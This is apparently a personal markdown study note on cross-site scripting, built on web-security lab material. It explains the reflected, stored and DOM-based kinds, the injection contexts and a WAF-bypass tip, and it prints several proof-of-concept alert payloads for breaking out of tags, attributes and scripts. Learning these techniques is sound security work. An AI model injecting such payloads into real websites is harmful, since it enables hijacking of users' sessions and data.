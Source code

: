 # Cross-site scripting (XSS)

## General info
Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users

## Alert() limitation
TO DO

## Do not use alert(1)
```
<textarea id="script" onchange=("unsafe(this.value)"></textarea><br>
<iframe id="result" sandbox="allow-scripts allow-modals"></iframe>
```
```
document.session = "secret"
function unsafe(t) {
  var i = document.getElementById('result'); // get the <iframe>
  i.srcdoc = "<body><script>document.write("+t+");<"+"/script><body>";
}
```
- Try `alert(1)` and you see it works... but
- `alert(document.session)` won't work... why?
- `alert(window.origin)` or `alert(document.domain)` and you'll see it's empty
  - this is because the sandboxed iframe also has a different origin. It's isolated from the website it is embedded into and you cannot steal the secret session.
- Use `alert(document.domain)` or `alert(window.origin)` instead 

## Types of XSS
- Reflected XSS, where the malicious script comes from the current HTTP request.
  - `https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`
- Stored XSS, where the malicious script comes from the website's database.
  - POST example: `comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E`
- DOM-based XSS, where the vulnerability exists in client-side code rather than server-side code.
  - ```
    <script>
    function trackSearch(query) {
      document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
      trackSearch(query);
    }
    </script>
    ```
  - Get request `https://insecure-website.com/index?search="><script>alert(document.domain)<%2Fscript>`
  - Methodology
      1. Look for any script that has a sinks
      2. See if you can control the sink
      3. Exploit it 
  - Note: here there are some sources and sinks
    - https://github.com/wisec/domxsswiki/wiki
    - https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities
  - Note 2: DOM Invader (Burp Suite tool) is a browser-based tool that helps you test for DOM XSS vulnerabilities using a variety of sources and sinks. 

### DOM XSS - Sources and sinks in third-party dependencies
To do...

### DOM XSS combined with reflected and stored data
- If a script reads some data from the URL and writes it to a dangerous sink, then the vulnerability is entirely client-side. (there is no processing from the server) 
- Reflected DOM vulnerabilities occur when the server-side application processes data from a request and echoes the data in the response. A script on the page then processes the reflected data in an unsafe way, ultimately writing it to a dangerous sink.
  - `eval('var data = "reflected string"');`
- In a stored DOM XSS vulnerability, the server receives data from one request, stores it, and then includes the data in a later response. A script within the later response contains a sink which then processes the data in an unsafe way.
  - `element.innerHTML = comment.author`

## Cross-site scripting contexts
### XSS between HTML tags
```
<script>alert(document.domain)</script>
<img src=1 onerror=alert(1)>
```
- Bypass WAF
  - If you receive an error like "tag <img> is not allowed" or "event is not allowed", use XSS cheat sheet to discover a tag and event that work.
  - Note: understand how a payload works
    - `<body onresize="print()">` with this payload (for reflected XSS) you need an exploit server and iframe tag
### XSS in HTML tag attributes
- When the XSS context is into an HTML tag attribute value, you might sometimes be able to terminate the attribute value, close the tag, and introduce a new one.
- `"><script>alert(document.domain)</script>`
- More commonly in this situation, angle brackets are blocked or encoded. In this case you can introduce a new attribute that creates a scriptable context.
- `" autofocus onfocus=alert(document.domain) x="`
- Sometimes the XSS context is into a type of HTML tag attribute that itself can create a scriptable context.
  - If the XSS context is into the href attribute of an anchor tag, you can use the javascript pseudo-protocol to execute script
  - `<a href="javascript:alert(document.domain)">`
- Access keys allow you to provide keyboard shortcuts that reference a specific element. This is useful in:
  - Hidden inputs because events like onmouseover and onfocus can't be triggered due to the element being invisible
    - `<input type="hidden" accesskey="X" onclick="alert(1)">`
  - `<link rel="canonical" accesskey="X" onclick="alert(1)" />`
- Suggestions:
  - Substitute `'` `"` and viceversa
  - Space is not needed
    - `<link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>`

### XSS into JavaScript
- Terminating the existing script (I don't really know why this works but it works)
  - The browser incorrectly interprets the `</script>` sequence within the string as the end of the script block, prematurely stopping the execution of your JavaScript script and generating an error.
```
<script>
...
var input = 'controllable data here';
...
</script>
```
```
</script><img src=1 onerror=alert(document.domain)>
```
